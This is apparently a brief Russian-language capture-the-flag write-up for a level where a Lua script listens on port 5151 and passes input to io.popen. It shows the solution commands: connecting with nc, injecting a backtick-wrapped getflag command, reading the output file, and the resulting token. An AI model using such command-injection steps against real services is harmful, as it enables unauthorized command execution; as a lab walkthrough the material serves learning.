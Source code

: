 В папке скрипт lua, он:
	слушает порт 5151
	выполняет команду (строка io.popen)

Следующими действиями отправляем команду в скрипт:
nc localhost 5151
`getflag > /tmp/test`
cat /tmp/test

token: fa6v5ateaw21peobuub8ipe6s